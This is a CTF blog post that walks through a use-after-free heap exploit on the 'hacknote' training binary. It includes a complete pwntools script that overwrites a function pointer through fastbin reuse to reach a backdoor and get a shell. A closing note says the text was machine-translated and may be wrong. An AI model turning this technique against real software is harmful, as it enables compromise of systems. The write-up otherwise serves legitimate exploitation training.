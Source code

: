 ```yaml
---
title: "PWN First Attempt on Heap - UseAfterFree"
date: 2022-06-30
tags: ['CTF', 'Pwn']
authors: [nova]
---
```


After dawdling for so long, I finally managed to dive into the world of HEAP.

Thanks to Ayang's (bushi) guidance.


Let's first take a look at the simplest `Use After Free` exploit, which requires minimal understanding of heap concepts. I will probably write about `Double Free + Unlink` tomorrow.

I used the original challenge [hacknote](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/heap/use_after_free/hitcon-training-hacknote/hacknote) from `CTF-WIKI`.

<!--truncate-->

# Changing the `libc` used as a dynamic interpreter in Pwntools

I would like to mention a pitfall I encountered on the way. `libc-2.31` has made significant changes to the heap management mechanism, so the debugging approach based on `CTF-WIKI` didn't work initially. Therefore, I will explain how to change the dynamic interpreter.

Firstly, you need two tools, [glibc-all-in-all](https://github.com/matrix1001/glibc-all-in-one) and [patchelf](https://github.com/NixOS/patchelf).

Please refer to the `README.md` for installation instructions.


After downloading the corresponding `libc`, use `patchelf` to set the interpreter for the `ELF` file.

```sh
patchelf --set-interpreter /path/to/libc/libc-2.23.so --set-rpath /path/to/libc/ ./binary_file_name

# For Example: patchelf --set-rpath /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ --set-interpreter /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./use_after_free
```

## Use After Free

The main cause of this vulnerability is a `dangling pointer`—the memory pointer is not set to NULL after `free()`. If other code modifies the content of this memory at this point, using this memory again will lead to issues.

## Source

```sh
gcc -m64 -fno-stack-protector -no-pie -z execstack -g use_after_free.c -o use_after_free 
# Make
```

No protections, 64-bit.

The program defines a structure with a pointer `printnote` pointing to the `print_note_content` method and a pointer `content`.

The implementation of `add_note()` is as follows: Firstly, it `malloc` a `struct note`, which is 16 bytes in the heap. After that, it allocates `size` bytes in the heap for `content`.

Take a look at `del_note()`. After deleting a node, `count` does not change—this limits the number of times we can `add_note()`, and also provides convenience for our exploit. Also, after `free`, `notelist[idx]` is not set to `NULL`, which opens the door for our `Use After Free` exploitation.

`print_note()` calls `notelist[idx]->printnote(notelist[idx])`. If we can modify the memory of `notelist[idx]->printnote`, we can achieve the effect of executing a backdoor function.

## Exploit

Since `struct note` is a fixed `0x20`-size `chunk`, we mainly think about the exploitation related to `fastbins`.

Since `fastbins` maintains several linked lists from `0x20` to `0x80` and has a last-in, first-out mechanism, we can consider the following scenario:

If we allocate two `0x20` notes, let's call them `note1` and `note2`, the program should have 4 heap segments—two `0x20`-sized `note1_struct_note` and `note2_struct_note`, and two `0x30`-sized `note1` and `note2` (excluding the one byte for `PREV_IN_USE`).

If we then free both notes, the `fastbins` should look like this:

```sh
fastbins:
    0x20: note2_struct_note_addr -> note1_struct_note_addr
    0x30: note2 -> note1
```

What if we then allocate another `0x10` note `note3`? Based on the recycling mechanism of `fastbins`, we can infer that:

The first `note2_struct_note_addr` will be allocated to `note3_struct_note_addr`, while the second `note1_struct_note_addr` will be allocated to our controllable `note3`.

Now, if we change the `content` of `note3` to a backdoor function and call `print_note(0)`:

As you'd expect, the backdoor function will be executed.

```python
from pwn import *

sh = process(["./use_after_free"])

def add_note(size, content):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"1")
    sh.recvuntil(b"Note size :")
    sh.sendline(str(size).encode())
    sh.recvuntil(b"Content :")
    sh.sendline(content)

def delete_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"2")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())

def print_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"3")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())

# gdb.attach(sh)
add_note(32, b"aaaa")
add_note(32, b"bbbb")
delete_note(0)
delete_note(1)
add_note(16, p64(0x4015f9)) # addr of magic()
print_note(0)
sh.interactive()
```

## GDB

Theoretical knowledge alone is incomplete without practical debugging using `GDB`.

Based on the explanation above, let's debug at the second `add_note()`, second `delete_note()`, and the last `add_note()`:

After adding:

![heap after adding](https://cdn.ova.moe/img/image-20220314221552787.png)

![heap after adding](https://cdn.ova.moe/img/image-20220314221633396.png)

`0x401256` is the address of `print_note_content()`, and `0xd04030` and `0xd04080` are the addresses of `content`.

After deleting:

![heap after deleting](https://cdn.ova.moe/img/image-20220314221804318.png)

![heap after deleting](https://cdn.ova.moe/img/image-20220314221824810.png)

![heap after deleting](https://cdn.ova.moe/img/image-20220314221944311.png)

Different-sized chains enter different `fastbins`.

Final state:

![heap final](https://cdn.ova.moe/img/image-20220314222135890.png)

![heap final](https://cdn.ova.moe/img/image-20220314222201810.png)

![heap final](https://cdn.ova.moe/img/image-20220314222221269.png)

After the last addition, we observe that the two `0x20`-sized heaps in `fastbins` have been recycled! The address of the backdoor function `0x4015f9` as the `content` has been written to the location of the initial `print_note_content()`.

At this point, running `print_note()` will execute the backdoor function.

![Shell!](https://cdn.ova.moe/img/image-20220314222613059.png)

:::info
This Content is generated by ChatGPT and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
